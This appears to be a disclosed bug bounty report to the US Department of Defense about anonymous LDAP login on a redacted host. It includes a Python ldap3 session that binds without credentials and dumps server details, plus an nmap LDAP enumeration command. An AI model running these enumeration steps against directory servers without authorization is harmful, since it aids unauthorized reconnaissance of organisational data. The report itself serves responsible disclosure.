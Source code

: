 # LDAP Anonymous Login enabled in ████

## Report Details
- **Report ID**: 2081332
- **URL**: https://hackerone.com/reports/2081332
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-24T07:27:47.761Z
- **Disclosed**: 2023-09-08T17:16:54.754Z

## Reporter
- **Username**: shuvam321
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
The host ██████████ has anonymous LDAP login enabled, which means that anyone can connect to the LDAP server without providing any authentication credentials. This allows unauthorized users to perform LDAP queries, potentially retrieving sensitive information such as user details, organizational data, or other critical information stored in the LDAP directory.

## References
https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

## Impact

Attackers can exploit this vulnerability to gain unauthorized access to the LDAP server and retrieve sensitive information stored within the directory. Attackers can use the gathered information to perform further attacks, including privilege escalation, or targeted attacks against the system or its users.

## System Host(s)
████

## Affected Product(s) and Version(s)
LADP

## CVE Numbers


## Steps to Reproduce
## Proof Hosts Belong to DoD

██████

1. First install ldap3 using pip3 and run the following command.

```
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ldap3==
>>> server = ldap3.Server('██████████', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
DSA info (from DSE):
  Supported LDAP versions: 2, 3
  Naming contexts: 
    dc=satx,dc=disa,dc=mil
    uid=Monitor
    cn=iasdsadmin
  Supported controls: 
    1.2.826.0.1.3344810.2.3 - Matched Values - Control - RFC3876
    1.2.840.113556.1.4.1413 - Permissive modify - Control - MICROSOFT
    1.2.840.113556.1.4.319 - LDAP Simple Paged Results - Control - RFC2696
    1.2.840.113556.1.4.473 - Sort Request - Control - RFC2891
    1.2.840.113556.1.4.805 - Tree delete - Control - MICROSOFT
    1.3.6.1.1.12 - Assertion - Control - RFC4528
    1.3.6.1.1.13.1 - LDAP Pre-read - Control - RFC4527
    1.3.6.1.1.13.2 - LDAP Post-read - Control - RFC4527
    1.3.6.1.4.1.26027.1.5.2 - Replication repair - Control - OpenDS
    1.3.6.1.4.1.26027.1.5.4
    1.3.6.1.4.1.36733.2.1.5.1
    1.3.6.1.4.1.36733.2.1.5.5
    1.3.6.1.4.1.42.2.27.8.5.1 - Password policy - Control - IETF DRAFT behera-ldap-password-policy
    1.3.6.1.4.1.42.2.27.9.5.2 - Get effective rights - Control - IETF DRAFT draft-ietf-ldapext-acl-model
    1.3.6.1.4.1.42.2.27.9.5.8 - Account usability - Control - SUN microsystems
    1.3.6.1.4.1.4203.1.10.1 - Subentries - Control - RFC3672
    1.3.6.1.4.1.4203.1.10.2 - No-Operation - Control - IETF DRAFT draft-zeilenga-ldap-noop
    1.3.6.1.4.1.4203.666.5.12
    1.3.6.1.4.1.7628.5.101.1 - LDAP subentries - Control - IETF DRAFT draft-ietf-ldup-subentry
    2.16.840.1.113730.3.4.12 - Proxied Authorization (old) - Control - Netscape
    2.16.840.1.113730.3.4.16 - Authorization Identity Request Control - Control - RFC3829
    2.16.840.1.113730.3.4.17 - Real attribute only request - Control - Netscape
    2.16.840.1.113730.3.4.18 - Proxy Authorization Control - Control - RFC6171
    2.16.840.1.113730.3.4.19 - Chaining loop detection - Control - Netscape
    2.16.840.1.113730.3.4.2 - ManageDsaIT - Control - RFC3296
    2.16.840.1.113730.3.4.3 - Persistent Search - Control - IETF
    2.16.840.1.113730.3.4.4 - Netscape Password Expired - Control - Netscape
    2.16.840.1.113730.3.4.5 - Netscape Password Expiring - Control - Netscape
    2.16.840.1.113730.3.4.9 - Virtual List View Request - Control - IETF
  Supported extensions: 
    1.3.6.1.1.8 - Cancel Operation - Extension - RFC3909
    1.3.6.1.4.1.1466.20037 - StartTLS - Extension - RFC4511-RFC4513
    1.3.6.1.4.1.26027.1.6.1 - Password policy state - Control - OpenDS
    1.3.6.1.4.1.26027.1.6.2 - Get connection ID - Control - OpenDS
    1.3.6.1.4.1.26027.1.6.3 - Get symmetric key - Control - OpenDS
    1.3.6.1.4.1.4203.1.11.1 - Modify Password - Extension - RFC3062
    1.3.6.1.4.1.4203.1.11.3 - Who am I - Extension - RFC4532
  Supported features: 
    1.3.6.1.1.14 - Modify-Increment - Feature - RFC4525
    1.3.6.1.4.1.4203.1.5.1 - All Op Attrs - Feature - RFC3673
    1.3.6.1.4.1.4203.1.5.2 - OC AD Lists - Feature - RFC4529
    1.3.6.1.4.1.4203.1.5.3 - True/False filters - Feature - RFC4526
  Supported SASL mechanisms: 
    SCRAM-SHA-512, PLAIN, EXTERNAL, SCRAM-SHA-256
  Schema entry: 
    cn=schema
Vendor name: ForgeRock AS.
Vendor version: ForgeRock Directory Services 7.3.0-20230323223207-47dd3dc1b26e0d8a982cad26d51b3a91ed1e9309
Other:
  objectClass: 
    top
    ds-root-dse
  alive: 
    true
  fullVendorVersion: 
    7.3.0.47dd3dc1b26e0d8a982cad26d51b3a91ed1e9309
  healthy: 
    true
  supportedAuthPasswordSchemes: 
    SCRAM-SHA-512
    PBKDF2-HMAC-SHA256
    SCRAM-SHA-256
    PBKDF2-HMAC-SHA512
  supportedTLSCiphers: 
    TLS_AES_128_GCM_SHA256
    TLS_AES_256_GCM_SHA384
    TLS_DHE_RSA_WITH_AES_128_GCM_SHA256
    TLS_DHE_RSA_WITH_AES_256_GCM_SHA384
    TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256
    TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384
    TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
    TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384
    TLS_EMPTY_RENEGOTIATION_INFO_SCSV
  supportedTLSProtocols: 
    TLSv1.2
    TLSv1.3
```


2. You will get information about the LDAP server, including supported LDAP versions, naming contexts, supported controls, supported extensions, supported features, supported SASL mechanisms, vendor information, and other details.

## Nmap Command to Enumerate the Information:

```
nmap -n -sV --script "ldap* and not brute" -p 389 ████████
```

█████

## Suggested Mitigation/Remediation Actions
Modify the LDAP server configuration to disable anonymous access and require authentication for all LDAP queries & configure proper access control .



## Attachments
No attachments
